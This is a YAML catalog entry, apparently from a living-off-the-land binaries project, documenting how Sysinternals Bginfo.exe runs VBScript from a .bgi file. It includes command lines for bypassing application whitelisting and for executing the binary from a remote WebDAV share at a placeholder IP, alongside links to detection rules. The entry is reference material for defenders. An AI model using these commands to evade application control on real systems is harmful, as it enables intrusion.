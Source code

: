 ```yaml
---
Name: Bginfo.exe
Description: Background Information Utility included with SysInternals Suite
Author: Oddvar Moe
Created: 2018-05-25
Commands:
  - Command: bginfo.exe {PATH:.bgi} /popup /nolicprompt
    Description: Execute VBscript code that is referenced within the specified .bgi file.
    Usecase: Local execution of VBScript
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows
    Tags:
      - Execute: WSH
  - Command: bginfo.exe {PATH:.bgi} /popup /nolicprompt
    Description: Execute VBscript code that is referenced within the specified .bgi file.
    Usecase: Local execution of VBScript
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows
    Tags:
      - Execute: WSH
  - Command: \\10.10.10.10\webdav\bginfo.exe {PATH:.bgi} /popup /nolicprompt
    Usecase: Remote execution of VBScript
    Description: Execute bginfo.exe from a WebDAV server.
    Category: Execute
    Privileges: User
    MitreID: T1218
    Tags:
      - Execute: WSH
    OperatingSystem: Windows
  - Command: \\10.10.10.10\webdav\bginfo.exe {PATH:.bgi} /popup /nolicprompt
    Usecase: Remote execution of VBScript
    Description: Execute bginfo.exe from a WebDAV server.
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows
    Tags:
      - Execute: WSH
  - Command: \\live.sysinternals.com\Tools\bginfo.exe {PATH_SMB:.bgi} /popup /nolicprompt
    Usecase: Remote execution of VBScript
    Description: This style of execution may not longer work due to patch.
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows
    Tags:
      - Execute: WSH
      - Execute: Remote
  - Command: \\live.sysinternals.com\Tools\bginfo.exe {PATH_SMB:.bgi} /popup /nolicprompt
    Usecase: Remote execution of VBScript
    Description: This style of execution may not longer work due to patch.
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows
    Tags:
      - Execute: WSH
      - Execute: Remote
Full_Path:
  - Path: no default
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/683b63f8184b93c9564c4310d10c571cbe367e1e/rules/windows/process_creation/proc_creation_win_lolbin_bginfo.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/414d32027632a49fb239abb8fbbb55d3fa8dd861/rules/windows/defense_evasion_unusual_process_network_connection.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/414d32027632a49fb239abb8fbbb55d3fa8dd861/rules/windows/defense_evasion_network_connection_from_windows_binary.toml
  - BlockRule: https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules
Resources:
  - Link: https://oddvar.moe/2017/05/18/bypassing-application-whitelisting-with-bginfo/
Acknowledgement:
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
---
```

